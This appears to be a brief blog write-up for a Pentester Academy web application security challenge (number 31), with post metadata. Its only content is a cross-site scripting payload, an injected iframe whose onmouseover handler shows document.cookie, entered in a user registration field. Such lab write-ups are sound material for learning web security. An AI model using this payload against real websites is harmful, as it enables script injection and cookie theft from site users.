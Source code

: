 title: [Pentester Academy] Web Application Security Challenge 31
link: http://localhost/pentester-academy-web-application-security-challenge-31/
author: exploitprotocol
description: 
post_id: 1785
created: 2015/01/08 09:12:11
created_gmt: 2015/01/08 09:12:11
comment_status: open
post_name: pentester-academy-web-application-security-challenge-31
status: publish
post_type: post

# [Pentester Academy] Web Application Security Challenge 31

Insert **</h3><iframe src="" onmouseover="alert(document.cookie)"><h3>** in the User Registration Field. ![](https://i.imgur.com/ktWYlaL.png)